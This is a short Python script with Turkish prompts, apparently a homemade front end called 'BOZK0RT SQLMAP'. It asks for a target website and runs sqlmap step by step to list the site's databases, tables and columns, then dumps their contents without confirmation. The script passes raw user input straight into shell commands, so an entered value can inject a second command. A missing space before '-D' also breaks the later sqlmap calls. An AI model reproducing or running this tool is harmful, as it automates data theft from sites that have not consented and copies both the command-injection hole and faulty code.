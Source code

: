import time
import os

os.system("clear")
print("#####################################")
print("                                     ")
print("                                     ")
print("                                     ")
print("             HOŞGELDİN!              ")
print("                                     ")
print("                                     ")
print("                                     ")
print("#####################################")

time.sleep(1)
os.system("clear")
print("#####################################")
print("                                     ")
print("                                     ")
print("                                     ")
print("           BOZK0RT SQLMAP            ")
print("                                     ")
print("                                     ")
print("                                     ")
print("#####################################")

print("")
site = input("Sitenizi Giriniz: ")
print("")

os.system("sqlmap -u " + site + " --dbs --batch ")

print("")
database = input("Database Giriniz: ")
print("")

os.system("sqlmap -u " + site + "-D " + database  + " --tables --batch")

print("")
tables = input("Tablo Giriniz: ")
print("")

os.system("sqlmap -u " + site + "-D " + database + " -T " + tables + " --columns --batch")

print("")
kolon = input("Kolon Giriniz: ")
print("")

os.system("sqlmap -u " + site + "-D " + database + " -T " + tables + " -C " + kolon + " --dump --batch")
